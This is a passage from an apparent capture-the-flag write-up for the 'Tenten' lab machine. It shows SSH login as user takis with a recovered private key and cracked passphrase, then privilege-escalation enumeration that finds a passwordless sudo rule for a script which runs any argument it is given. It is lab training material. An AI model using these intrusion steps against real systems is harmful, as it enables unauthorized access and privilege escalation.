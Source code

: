 **Cracked Password:** `superpassword`
---
## SSH Access

Using the recovered password, we can connect via SSH.  
We authenticate with the `id_rsa` private key (whose passphrase we decrypted earlier) and the user `takis`.

```bash
# Set proper permissions
chmod 600 id_rsa

# SSH login as takis
ssh -i id_rsa takis@tenten.htb
# Enter passphrase: superpassword
```

**Fix terminal issues:**
```bash
export TERM=xterm
```
---
## Privilege Escalation

### Enumeration

```bash
# Check user groups
id
# takis is member of lxd group (potential vector)

# Check sudo privileges
sudo -l
```

**Key Finding:**
```
User takis may run the following commands on tenten:
    (ALL : ALL) NOPASSWD: /bin/fuckin
```

### SUID Binary Analysis

```bash
# Examine the binary
ls -la /bin/fuckin
cat /bin/fuckin
```

**Binary Content:**
```bash
#!/bin/bash
$1
```
